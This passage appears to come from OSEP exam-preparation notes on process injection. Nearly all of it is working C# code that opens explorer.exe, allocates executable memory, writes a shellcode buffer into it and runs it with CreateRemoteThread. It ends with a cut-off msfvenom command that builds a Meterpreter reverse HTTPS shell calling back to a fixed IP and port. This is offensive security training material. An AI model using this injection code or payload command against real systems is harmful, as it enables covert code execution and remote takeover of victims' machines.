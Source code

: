 ```csharp
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr OpenProcess(
     uint processAccess,
     bool bInheritHandle,
     uint processId
);
public static IntPtr OpenProcess(Process proc, ProcessAccessFlags flags)
{
     return OpenProcess(flags, false, (uint)proc.Id);
}

[DllImport("kernel32.dll", SetLastError=true, ExactSpelling=true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress,
   uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll", SetLastError = true)]
  public static extern bool WriteProcessMemory(
  IntPtr hProcess,
  IntPtr lpBaseAddress,
  byte[] lpBuffer,
  Int32 nSize,
  out IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll")] 
        static extern IntPtr CreateRemoteThread(
        IntPtr hProcess, 
        IntPtr lpThreadAttributes, 
        uint dwStackSize, 
        IntPtr lpStartAddress, 
        IntPtr lpParameter, 
        uint dwCreationFlags, 
        IntPtr lpThreadId);

int Size = buf.Length;
            uint uSize = Convert.ToUInt32(Size);

            Process[] localByName = Process.GetProcessesByName("Explorer");
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, localByName[0].Id); 
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, uSize, 0x3000, 0x40);

            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

msfvenom -p windows/metepreter/reverse_https LHOST=192.168.49.66 LPORT=7979 -f
```

### Exercises #3

![Untitled](/assets/img/2023-01-14-OSEP-Process-Injection-Migration/Untitled%201.png)
